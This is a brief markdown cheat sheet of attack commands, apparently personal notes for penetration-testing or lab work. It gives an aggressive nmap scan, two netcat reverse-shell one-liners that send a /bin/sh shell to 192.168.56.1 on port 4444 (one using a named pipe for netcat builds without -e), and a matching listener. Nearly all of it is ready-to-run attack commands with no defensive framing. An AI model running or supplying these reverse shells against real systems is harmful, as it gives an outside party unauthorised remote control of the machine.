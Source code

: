 # Useful command

## Scan

'''
nmap -A -Pn -n --top-ports 10000 -vvv -oN 192.168.27.68
'''

## Get Shell & Listen:

### get shell

'''
nc 192.168.56.1 4444 -e /bin/sh
'''

the -e flag was not supported on the server’s implementation of netcat.:

'''
mknod /tmp/backpipe p 
/bin/sh 0</tmp/backpipe | nc 192.168.56.1 4444 1>/tmp/backpipe
'''

### listen:
'''
nc -nvlp 4444
'''
